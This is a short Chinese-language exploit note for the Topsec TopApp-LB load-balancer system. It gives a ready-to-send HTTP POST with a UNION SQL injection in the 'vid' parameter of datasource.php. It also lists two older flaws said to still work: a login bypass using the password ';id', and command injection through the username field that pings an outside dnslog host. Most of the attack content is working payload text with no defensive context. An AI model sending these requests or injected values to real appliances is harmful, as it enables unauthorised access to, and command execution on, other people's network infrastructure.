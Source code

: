 # 天融信TopApp-LB 负载均衡系统Sql注入漏洞



1.利用POC:

```
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: localhost
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded

t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22-- +&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。
```

![image-20201020115040428](resource/%E5%A4%A9%E8%9E%8D%E4%BF%A1TopApp-LB%20%E8%B4%9F%E8%BD%BD%E5%9D%87%E8%A1%A1%E7%B3%BB%E7%BB%9FSql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/image-20201020115040428.png)



2.2个历史漏洞仍然可以复现。

https://www.uedbox.com/post/21626/

用户名随意 密码:;id(天融信负载均衡TopApp-LB系统无需密码直接登陆)

https://www.uedbox.com/post/22193/

用户名: ; ping 9928e5.dnslog.info; echo 密码:任意

![image-20201020120245870](resource/%E5%A4%A9%E8%9E%8D%E4%BF%A1TopApp-LB%20%E8%B4%9F%E8%BD%BD%E5%9D%87%E8%A1%A1%E7%B3%BB%E7%BB%9FSql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/image-20201020120245870.png)